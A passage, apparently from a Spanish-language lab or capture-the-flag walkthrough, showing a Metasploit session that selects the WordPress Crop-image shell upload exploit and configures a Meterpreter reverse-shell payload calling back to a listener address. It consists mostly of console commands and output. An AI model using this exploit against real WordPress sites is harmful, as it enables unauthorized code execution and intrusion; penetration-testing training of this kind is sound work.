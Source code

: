 ```bash
❯ msfconsole -q
msf6 > search WordPress 5.0

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce                    2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   1  exploit/unix/webapp/wp_property_upload_exec       2012-03-26       excellent  Yes    WordPress WP-Property PHP File Upload Vulnerability
   2  auxiliary/scanner/http/wp_registrationmagic_sqli  2022-01-23       normal     Yes    Wordpress RegistrationMagic task_ids Authenticated SQLi

Interact with a module by name or index. For example info 2, use 2 or use auxiliary/scanner/http/wp_registrationmagic_sqli
```

Realizamos la ejecución del comando "`use 0`" para utilizar el módulo "`exploit/multi/http/wp_crop_rce`". A continuación, utilizamos el comando "`options`" para visualizar las opciones que debemos configurar.

```bash
msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_crop_rce) > options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-detection if provided)
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.221.140  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   WordPress

View the full module info with the info, or info -d command.
```
